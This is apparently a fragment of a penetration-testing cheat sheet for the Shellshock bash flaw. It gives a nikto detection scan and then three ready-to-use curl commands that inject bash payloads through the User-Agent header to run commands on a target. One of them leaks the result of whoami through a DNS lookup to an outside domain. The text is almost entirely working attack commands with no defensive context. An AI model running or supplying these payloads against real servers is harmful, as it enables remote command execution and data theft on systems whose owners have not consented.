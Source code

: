 ### Detection

```shell
nikto -h $TARGET -C all
```

### Exploit

```shell
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'whoami'" $TARGET
curl -A "() { :; };echo ;/bin/bash -c 'hostname'"  $TARGET
curl -A "() { :; }; /usr/bin/nslookup $(whoami).site.com" $TARGET
```

